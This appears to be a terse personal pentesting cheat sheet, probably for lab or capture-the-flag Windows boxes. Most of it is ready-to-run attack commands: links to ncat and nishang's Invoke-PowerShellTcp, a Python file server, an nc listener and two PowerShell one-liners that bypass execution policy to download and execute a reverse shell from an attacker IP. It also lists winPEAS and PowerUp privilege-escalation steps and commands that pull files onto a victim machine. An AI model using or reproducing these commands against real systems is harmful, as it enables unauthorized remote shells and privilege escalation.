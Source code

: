 # reverses 

## windows ncat binary

https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe


## nishang reverse tcp binay
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1


Use python2 -m SimpleHTTPServer 8888 : to serve

nc -lvp 4445 : listener

powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://10.10.121.196:8888/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 10.10.121.196 -Port 4445"

powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.92.19:8080/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.92.19 -Port 4444


# Privilege elevation

## winPea
https://github.com/carlospolop/PEASS-ng/releases/download/20221009/winPEASany.exe


## PowerUp 

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

PS > . .\Powerup.ps1
PS > Invoke-Allchecks  



# Download file

(new-object System.Net.WebClient).DownloadFile('http://www.xyz.net/file.txt','C:\tmp\file.txt')

(new-object System.Net.WebClient).DownloadFile('http://10.10.121.196:8888/winPEASany.exe','C:\Users\bill\Desktop\winPEASany.exe')




